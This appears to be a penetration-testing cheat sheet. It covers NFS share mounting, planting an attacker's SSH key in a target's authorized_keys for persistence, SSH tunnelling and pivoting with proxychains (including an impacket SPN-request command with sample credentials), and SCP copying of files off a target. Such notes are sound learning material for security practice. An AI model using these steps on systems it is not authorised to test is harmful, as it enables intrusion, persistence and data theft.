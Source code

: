 # Core Plus
This covers all of the random things that don't necessarily pertain to any given section but can be useful during a pentest.

## Mounting Files
Mounting directories you find

If the box is running a nfs network file share start with showmount to list what is available:
```bash
showmount -e {Target IP}
```

This should show you a directory list that's being shared.

Then you'll need to mount the file to do that:
```bash
mkdir /mnt/{name you want}
mount -t nfs {Target IP}:{Name of fileshare listed in showmount} /mnt/{name you wanted}
cd /mnt/{name you wanted}
```
## SSH keys 

### Create Keys 

- You could also run a keygen and store it on a malicious server. 

````bash
maliciousbox$ ssh-keygen -t rsa -b 4096 #Make sure you delete an existing key first. 

maliciousbox$ Leave everything blank and hit enter. It will be stored in /home/.ssh/id_rsa 

#Cat your id_rsa pub and copy everything in that file. 

targetrmachine$ ls -la #see if they have a .ssh directory. 

targetrmachine$ mkdir /var/www/.ssh #Use the home directory we found from passwd file. 

targetrmachine$ ls -la #Confirm it exists. 

targetrmachine$ echo ‘copied info from key’ > /var/www/.ssh/authorized_keys #You can find this info from running a “man” on ssh and “/key” to search for entries with key. #It may error out if you use the double quotes so use single instead. 

maliciousbox$ ssh www-data@{ip of site} 
````

### SSH Alias Login 

- Create aliases to ssh in easier without keys. 

    - `nano ~/.bashrc`

- Scroll down till you see the aliases for ll. 
- Add the following and match your IP and Password. 
    - `alias gh='sshpass -p "{PASS}" ssh -o StrictHostKeyChecking=no -X student@{IP}'` 

### Using Private SSH keys 

- To use private ssh keys, grab the file or copy the contents to a file on your local machine. You also need to chmod the file to make it usable. 

````bash
chmod 600 key 

ssh -i key {username}@{ip}  
````
## Port forwarding 
- Used for pivoting in a network if you've accessed a machine and notice another network.

### Local 

- To access ports from a local machine on your attack box you'll need to setup port forwarding: 

````bash
ssh -p {different port if needed} {username}@{ip} -L {target port}:127.0.0.1:{target port} -NT 
````
> **Example**
>
> `ssh student@10.2.0.2 -L 1111:34.233.98.14:80 -NT`
>
> - In this example you are setting up a port to your local machine with the '-L' switch, you can connect to locally on your machine at '1111'. If you were to go to firefox localhost 1111 you would be accesses the server at 34.233.98.14  
> - This work because the student machine has a connection to the target. By validating through SSH you can now access the target machine. 
> - The switches at the end prevent you from opening a terminal as you normally would in an SSH connection to ensure your port forward remains stable. 
> - '-N' disables remote commands and is good for forwarding.
> - '-T' disables pseudo terminal allocation.
>
> ![](images/local_portfwd.png)

### Stacking

- You can burrow deeper by opening another terminal and tunneling through the existing local host connection. This is referred to as *stacking*.

> **Example of stacking:**
>
> `ssh student@10.2.0.2 -L 1111:10.3.0.2:22 -NT`  
> `ssh student@localhost -p 1111 -L 2222:34.233.98.14:80 -NT`  
> `firefox localhost:2222`  
>
> - Creates an additional local port on the local host that forwards to a target machine through the previous channel created. So really I'm SSHing into a separate socket each time which is why it's separate authentication. 
> - All the ports are open on your local machine as you make this connection. Should one collapse the others will fail.
> - To stack you need to set the target port to the SSH port on the "jump box". This enable you to setup an additional SSH connection.
>
> ![](images/stacking_portfwd.png)

### Dynamic 

1. Create a port forward as before. 
    - `ssh student@10.2.0.2 -L 1111:10.3.0.2:22 -NT`
2. Use proxy chains to make your connection.
    - `ssh student@localhost -D 9050 -p 1111 -NT`
3. Use proxy chains before any command.
    - Ex: `proxychains impacket-GetUserSPNS.py ROSHAR.local/dkholin:Password1`
    - Ex: `proxychains firefox` #This means the firefox that opens on your local machine is from the target machine.

> **NOTE**
> ***
> - Proxychains really only works with TCP so ping and netstat don't work.
> - NMAP is less reliable over proxychains because it can only handle TCP based traffic that is valid and NMAP starts with an ICMP echo request so it will fail already unless you do a TCP full connect scan `nmap -sT -Pn -p <start port>-<end port>` or it will only scan 1000 random ports. 

## SCP  

- **Download a file from a remote directory** (172.16.82.106) **to a local directory** (home/attacker) 
    - `scp target@172.16.82.106:/home/target/secretstuff.txt /home/attacker`

- **Upload a file to a remote directory from a local directory**. 
- The command below is run from the directory with secretsstuff.txt, alternative you can use the whole path to the file. The target directory 
    - `scp secretstuff.txt target@172.16.82.106:/home/target`

- **Copy a file from a remote host to a separate remote host**
    - `scp -3 target1@172.16.82.106:/home/target1/secretstuff.txt target2@172.16.82.112:/home/target2` 

> **Pro Tip**
> ***
> - You can use the '-P' switch to specify which ssh port you're using.
> - This is useful if you've setup a tunnel or changed the SSH port.
> - Ex: `scp -P 1111 secretstuff.txt target@localhost:/home/target` 